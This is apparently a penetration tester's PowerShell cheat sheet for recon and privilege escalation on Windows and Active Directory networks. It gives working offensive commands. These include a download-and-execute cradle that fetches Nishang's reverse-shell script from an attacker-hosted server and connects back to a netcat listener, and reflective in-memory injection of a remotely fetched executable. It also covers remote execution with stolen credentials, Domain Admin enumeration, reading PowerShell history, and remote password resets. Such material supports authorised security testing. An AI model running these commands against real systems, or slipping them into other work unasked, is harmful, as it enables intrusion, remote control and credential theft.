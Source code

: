 # PowerShell

Some useful PowerShell commands that you can use during your recon or privsec phases.


## Execute block as an other user

```powershell
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<dom>\<username>", $pass)
Invoke-Command -Computer <computer_name> -Credential $cred -ScriptBlock { cmd.exe "/c <cmd>" }
```


## Download and execute script

The repository [Nishang](https://github.com/samratashok/nishang) contains a good
PowerShell script to create a [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
You need to add the following line at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```

On your local machine:

- Create an HTTP server to serve the script: `python -m http.serve`
- Listen for an incoming [connection with nc](reverse-shell.md#listen-with-netcat).

On the remote host, execute the following PowerShell script:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```


## ReflectivePEInjection

Start an executable from memory:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://security-tips.vincd.com/assets/Invoke-ReflectivePEInjection.ps1")
$ExeBytes = IWR "http://<ip>:<port>/x.exe" | Select-Object -ExpandProperty Content
Invoke-ReflectivePEInjection -PEBytes $ExeBytes
```


## Execute C# DLL from Powershell

```powershell
# Load a dll to Powershell
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Service.dll")
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Cryptography.dll")

# Call a public public static method
[MyNamespace.Service.Config]::ApplicationKey()

# Instantiate a class and class a method
$c = New-Object MyNamespace.Cryptography.MyCryptography
$c.Decrypt("CIPHER_TEXT", [MyNamespace.Service.Config]::ApplicationKey())
```

## ActiveDirectory Module without RSAT

To use the [ActiveDirectory Module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps
) you only need to import the dll `Microsoft.ActiveDirectory.Management.dll`.
It located in the following folder on a system where [RAST](https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is installed :

```
C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\
```

On the distant machine, you copy this dll then import it in Powershell:

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
```

## Domain commands


### Collect AD users information

Here is snippets of Powershell commands to interact with AD LDAP. You can also
use customize filters to get vulnerable users ([SPN](./windows.md#list-spn-accounts), ...)

```powershell
# Helping functions
function Get-ADUserDirectoryEntry($user) {
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$user))")).FindOne().GetDirectoryEntry()
}

function Get-ADUserGroups($user) {
    $userDirectoryEntry = Get-ADUserDirectoryEntry($user)
    $groups = $userDirectoryEntry.memberOf

    return $groups
}

function Get-ADGroupMembers($GroupName) {
    if ($GroupName -like "CN=*") {
        $GroupDistinguishedName = $GroupName
    } else {
        # find the distinguished name from the group name
        $GroupDistinguishedName = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=Group)(cn=$GroupName))")).FindOne().GetDirectoryEntry().distinguishedName
    }

    # limited to the first 10k entries
    $GroupMembers = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(memberOf=$GroupDistinguishedName ))")).FindAll()

    return $GroupMembers.properties
}

function Get-ADComputerByOS($operatingSystem) {
    # https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(&(&(samAccountType=805306369)(objectCategory=computer)(operatingSystem=$operatingSystem*))))")).FindAll()
}

# Get "Domain admins" users, be carefull the name may change depending on the DC lang
$DomainAdmins = Get-ADGroupMembers("Domain Admins")
foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccountname))" }
```


### Get Domain Password Policy

```powershell
$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
```


### Get user owner

```powershell
Get-ADUser $USERNAME | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}
```


### List deleted users

```powershell
$deletedObjectsDom = get-addomain | select DeletedObjectsContainer
$objects = Get-ADObject -SearchBase $deletedObjectsDom.DeletedObjectsContainer -ldapfilter "(objectClass=user)" -IncludeDeletedObjects -properties *
foreach ($object in $objects) { $object }
```


## Miscellaneous commands

### List TCP listening connections

The [`Get-NetTCPConnection`](https://docs.microsoft.com/en-us/powershell/module/nettcpip/get-nettcpconnection?view=win10-ps)
cmdlets lists TCP connections. By default the processes pid is return, so the
following command line select the process name instead.

```powershell
Get-NetTCPConnection -State Listen | Select local*, remote*, state, @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} | Format-Table -AutoSize
```


### List Email aliases

```powershell
$ (Get-ADUser -Identity <user_ad_id> -Properties proxyAddresses).proxyAddresses
```


### Get PowerShell command history

```powershell
cd "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline"
gc ConsoleHost_history.txt
```


### Convert DACL

```powershell
$acl = get-acl HKLM:\System\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
```


### Set Password Remotely

This [script](./assets/Set-PasswordRemotely.ps1) change the password of a user
on a remote forest.

```powershell
Set-PasswordRemotely {USERNAME} {DOMAIN}
```

### List Certificates

```powershell
$NamingContext = "DC=corpo,DC=lan"

$directoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Configuration,$NamingContext")
$adSearcher = New-Object System.DirectoryServices.DirectorySearcher($directoryEntry, "(distinguishedName=CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,$NamingContext)")
$NTAuthCertificates = $adSearcher.FindOne()
$cacertificates = $NTAuthCertificates.Properties.cacertificate

Foreach ($rawByte in $cacertificates) {
    $cacertificate = [System.Security.Cryptography.X509Certificates.X509Certificate2]$rawByte

    $subjectName = [System.Text.Encoding]::Default.GetString($cacertificate.SubjectName.RawData)
    $issuerName = [System.Text.Encoding]::Default.GetString($cacertificate.IssuerName.RawData)
    $signatureAlgorithm = $cacertificate.SignatureAlgorithm.FriendlyName
}
```


### List inactive computers

```powershell
$computers = (New-Object System.DirectoryServices.DirectorySearcher("(&(&(samAccountType=805306369)(objectCategory=computer)))")).FindAll()

$inactiveDays = 180
$limit = (Get-Date).AddDays(-1 * $inactiveDays)
$path = "C:\Temp\Inactive_Computers_$($inactiveDays)days.csv"

foreach($computer in $computers) {
    $c = $computer
    $lastlogontimestamp = [datetime]::FromFileTime($c.Properties.lastlogontimestamp[0])
    $pwdlastset = [datetime]::FromFileTime($c.Properties.pwdlastset[0])

    if ($lastlogontimestamp -lt $limit) {
        Add-Content $path "$($c.Properties.name),$($pwdlastset),$($lastlogontimestamp),$($c.Properties.operatingsystem)"
    }
}
```

### List GPO

The following script use the `DirectorySearcher` module to search for all the GPO
on the current domain. The cmdlet [`Get-GPO`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=win10-ps) could also be used.

```powershell
# https://gallery.technet.microsoft.com/scriptcenter/Get-GroupPolicyObject-05aaef2d

$GPOSearcher = New-Object DirectoryServices.DirectorySearcher -Property @{
    Filter = '(objectClass=groupPolicyContainer)'
    PageSize = 100
}
$GPOSearcher.FindAll() | ForEach-Object {
    New-Object -TypeName PSCustomObject -Property @{
        'DisplayName' = $_.properties.displayname -join ''
        'DistinguishedName' = $_.properties.distinguishedname -join ''
        'CommonName' = $_.properties.cn -join ''
        'FilePath' = $_.properties.gpcfilesyspath -join ''
    } | Select-Object -Property DisplayName,CommonName,FilePath,DistinguishedName
}
```

To get the permissions on a GPO, you can use the cmdlet [`Get-GPPermission`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gppermission?view=win10-ps):

```powershell
Get-GPPermission -Name "GPO_NAME" -All
```
